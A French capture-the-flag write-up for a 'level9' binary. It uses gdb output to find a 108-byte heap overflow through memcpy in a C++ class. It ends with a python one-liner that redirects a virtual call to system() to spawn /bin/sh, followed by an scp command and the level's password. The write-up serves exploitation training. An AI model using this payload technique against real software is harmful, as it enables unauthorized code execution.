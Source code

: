 On se connecte sur le level9, ou se trouve un **binaire** <code>level9</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
> gdb -q level9
Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp)
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp)
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
   0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
End of assembler dump.

(gdb) > i functions
All defined functions:

Non-debugging symbols:
0x08048464  _init
0x080484b0  __cxa_atexit
0x080484b0  __cxa_atexit@plt
0x080484c0  __gmon_start__
0x080484c0  __gmon_start__@plt
0x080484d0  std::ios_base::Init::Init()
0x080484d0  _ZNSt8ios_base4InitC1Ev@plt
0x080484e0  __libc_start_main
0x080484e0  __libc_start_main@plt
0x080484f0  _exit
0x080484f0  _exit@plt
0x08048500  _ZNSt8ios_base4InitD1Ev
0x08048500  _ZNSt8ios_base4InitD1Ev@plt
0x08048510  memcpy
0x08048510  memcpy@plt
0x08048520  strlen
0x08048520  strlen@plt
0x08048530  operator new(unsigned int)
0x08048530  _Znwj@plt
0x08048540  _start
0x08048570  __do_global_dtors_aux
0x080485d0  frame_dummy
0x080485f4  main
0x0804869a  __static_initialization_and_destruction_0(int, int)
0x080486da  _GLOBAL__sub_I_main
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
0x08048770  __libc_csu_init
0x080487e0  __libc_csu_fini
0x080487e2  __i686.get_pc_thunk.bx
0x080487f0  __do_global_ctors_aux
0x0804881c  _fini
```

Après analyse du fichier (**source.c**), on se rend compte que le programme appelle la fonction **memcpy** que nous pourront exploiter.
On commence par trouver l'offset

```gdb
(gdb) > b *main+136
Breakpoint 1 at 0x804867c
(gdb) > b *main+140
Breakpoint 2 at 0x8048680
(gdb) > b *main+142
Breakpoint 3 at 0x8048682
(gdb) > run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
Starting program: /home/user/level9/level9 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Breakpoint 1, 0x0804867c in main ()
(gdb) > p $eax
$1 = 134520844
(gdb) > p/x $eax
$2 = 0x804a00c
(gdb) > x $eax
0x804a00c:      0x41414141
(gdb) > s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x08048680 in main ()
(gdb) > x $eax
0x804a078:      0x62626262
(gdb) > s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 3, 0x08048682 in main ()
(gdb) > x $eax
0x62626262:     Cannot access memory at address 0x62626262
(gdb) > p 0x62
$3 = 98
```

98 correspond à la valeur ascii de 'b', on a donc **overflow**à partir des 'b', nous avons donc passé 27 * 4 lettres, ce qui correspond à un **offset** de 108.

> OFFSET = 108

Regardont ce qu'il se passe au retour de la fonction

```gdb
(gdb) > d 1
(gdb) > d 2
(gdb) > d 3
(gdb) > b *main+136
Breakpoint 4 at 0x804867c
(gdb) > b *main+140
Breakpoint 5 at 0x8048680
(gdb) > b *main+142
Breakpoint 6 at 0x8048682
(gdb) > run
The program being debugged has been started already.
Start it from the beginning? (y or n) > y

Starting program: /home/user/level9/level9 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Breakpoint 4, 0x0804867c in main ()
(gdb) > x $eax
0x804a00c:      0x41414141
(gdb) > ni

Breakpoint 5, 0x08048680 in main ()
(gdb) > x $eax
0x804a078:      0x62626262
(gdb) > ni

Breakpoint 6, 0x08048682 in main ()
(gdb) > x $eax
0x62626262:     Cannot access memory at address 0x62626262
(gdb)
```

On remarque que en premier lieu, notre eax pointe sur nos 'A' et que nous possédons l'adresse, et que par jeu de pointeur, 2 instructions après, nous pouvons voir que la valeur de l'addresse contenu dans eax est copier dans edx (dans notre exemple, la valeur copier est celle de nos 'b'). Nous pouvons également constater que par la suite, l'instruction situé à l'adresse contenue dans edx est call. 
Nous pouvons donc insérer l'addresse de system au niveaux de nos 'A'.
Nous pouvons indiquer l'addresse de notre insertion au niveau de nos 'b' pour qu'elle soit exécuté par le call. Les arguments lu dans la mémoire seront  les octets suivant nos 'b'. 

```gdb
(gdb) b main
Breakpoint 1 at 0x80485f8
(gdb) run
Starting program: /home/user/level9/level9

Breakpoint 1, 0x080485f8 in main ()
(gdb) p *system
$1 = {<text variable, no debug info>} 0xb7d86060 <system>
```

> SYSTEM = 0xb7d86060


```bash
> ./level9 `python -c 'print "\x60\x60\xd8\xb7" + "A"*104 + "\x0c\xa0\x04\x08;/bin/sh"'`
```

For download :
<pre><code>scp -P4242 level9@IP:level9 .</code></pre>
> Password : c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a